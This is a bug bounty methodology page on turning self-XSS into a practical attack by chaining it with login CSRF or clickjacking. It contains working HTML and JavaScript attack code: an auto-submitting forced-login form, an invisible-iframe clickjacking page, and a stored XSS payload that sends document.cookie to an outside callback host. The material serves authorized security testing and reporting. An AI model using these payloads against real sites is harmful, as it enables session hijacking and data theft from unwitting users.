

> Source: https://bugbounty.info/Chains/Self-XSS-to-Exploitable

# Self-XSS to Exploitable Chain

## Why This Chain Works

Self-XSS gets closed immediately. Triagers mark it invalid because the payload only fires in the attacker's own session - there's no obvious path to a victim. What they're not thinking about is login-CSRF. If you can force a victim's browser to log in to the attacker's account silently - via a CSRF on the login form - and then navigate them to the page where the XSS lives, the payload fires in the victim's browser in the attacker's session context. Then if the page shows any sensitive data or allows escalation, the gap between "self-only XSS" and "exploitable" is one CSRF check on the login endpoint.

Related: [XSS](../Attack-Surface/Web/Client-Side/XSS), [CSRF](../Attack-Surface/Web/Authentication/CSRF), [CSRF to ATO](../Chains/CSRF-to-ATO)

---

## Attack Flow



---

## Step-by-Step

### 1. Confirm the Self-XSS Scope

Verify that the XSS payload genuinely only fires for the account owner:

- Payload stored in: profile bio, personal notes, custom dashboard widget, user-controlled template
- Fires on: `/profile/settings`, `/dashboard`, `/notes/mine`
- Does not fire on any page visible to other users

If another user can view the payload page in any context (public profile, shared link), it's not self-XSS - it's stored XSS with a context restriction. Re-evaluate and report that instead.

### 2. Technique A - Login CSRF

The login form is often unprotected by CSRF tokens because developers consider login a "safe" action. If you can force a victim to log into the attacker's account:

```html
<!DOCTYPE html>
<html>
<body>
<form id="lcsrf" action="https://target.com/login" method="POST">
  <input name="username" value="attacker@attacker.com">
  <input name="password" value="AttackerPassword123">
</form>
<script>document.getElementById('lcsrf').submit();</script>
</body>
</html>
```

When the victim visits this page, they are silently logged in as the attacker.

**Conditions for this to produce impact:**

The victim must then navigate to the self-XSS page. You can force this with a redirect:

```html
<script>
document.getElementById('lcsrf').submit();
setTimeout(function(){
  window.location = 'https://target.com/profile/settings';
}, 2000);
</script>
```

The self-XSS payload fires. What can it do?

- Read `document.cookie` if cookies are not HttpOnly - includes any victim data visible in cookie
- Access session storage for data the victim's actual session wrote before the login switch
- Make requests that appear to come from the attacker's account, but run in the victim's browser environment

**The key escalation path:** if the XSS payload contains a request to a victim-context endpoint (for example, a request to the victim's actual currently-active tab via `window.opener`), or if the victim has sensitive data in local storage from their own prior session, the self-XSS becomes exploitable.

### 3. Technique B - Iframe-Hosted Clickjacking

If the self-XSS page is not frame-blocked (`X-Frame-Options` absent or permissive):

```html
<!DOCTYPE html>
<html>
<head>
<style>
  #target {
    opacity: 0.01;
    position: absolute;
    top: 100px;
    left: 100px;
    width: 400px;
    height: 300px;
    z-index: 2;
  }
  #decoy {
    position: absolute;
    top: 100px;
    left: 100px;
    z-index: 1;
  }
</style>
</head>
<body>
<iframe id="target" src="https://target.com/profile/settings"></iframe>
<div id="decoy">
  <p>Click here to claim your prize</p>
  <button style="position:absolute;top:50px;left:50px;">Click me</button>
</div>
</body>
</html>
```

The victim clicks the decoy button but actually clicks the save/submit button inside the iframe, triggering the XSS payload delivery mechanism. The XSS then fires in the iframe context.

**What you can do from the iframe XSS context:**

```javascript
// From within iframe XSS:
window.top.location = 'javascript:alert(document.domain)';  // if same-origin
// or exfiltrate the victim's other tab data if opener is accessible
window.opener.postMessage('steal', '*');
```

### 4. Demonstrating Impact

Self-XSS chains are rejected when the impact is theoretical. Make it concrete:

- Show that after login-CSRF, the victim's browser makes authenticated requests as the attacker account - demonstrating session confusion that could lead to credential phishing
- If the self-XSS page loads victim-context data from a shared cache or API (e.g., an autocomplete that pulls from the browser's history), show that data appearing in the attacker's session
- Show that clickjacking the self-XSS trigger fires a payload that exfiltrates the victim's `localStorage` from that origin

---

## PoC Template for Report

```text
Self-XSS: POST /profile/bio with {"bio":"<script>fetch('https://oast.me/?c='+document.cookie)</script>"}
Fires on: GET /profile/settings (attacker's own account only)
 
Technique A - Login CSRF chain:
1. Victim visits attacker's page (login-csrf.html)
2. Form auto-submits: POST /login {username:attacker, password:AttackerPass}
   - No CSRF token on login endpoint (confirmed: request accepted without token)
3. Victim is now logged into attacker account
4. Page redirects victim to /profile/settings
5. Self-XSS fires in victim's browser
6. Collaborator receives: c=[victim's oast.me cookie] confirming the XSS ran in victim context
 
Note: If the victim was logged in before the login-CSRF, their session is displaced.
      Their account becomes unreachable until they notice and log back in.
      This is a denial-of-access condition for the legitimate user.
```

---

## Public Reports

- Self-XSS chained with login CSRF to exploit victim's session on Twitter - [HackerOne #7989](https://hackerone.com/reports/7989)
- Self-XSS converted to exploitable via CSRF on Shopify login - [HackerOne #913695](https://hackerone.com/reports/913695)
- Self-XSS escalated via clickjacking on HackerOne profile settings - [HackerOne #1879645](https://hackerone.com/reports/1879645)

---

## Reporting Notes

The report must show the chain end-to-end. A self-XSS report without the chaining mechanism will be closed invalid. Show: the self-XSS payload and where it fires, the login-CSRF or clickjacking mechanism that forces victim interaction, and the XSS executing in the victim's browser context confirmed by an OOB callback. Note whether the login endpoint has CSRF protection - if it does, this chain may not be feasible and you need the clickjacking path instead. Severity is high rather than critical unless the XSS in the victim context can access sensitive data or perform a session-level action.
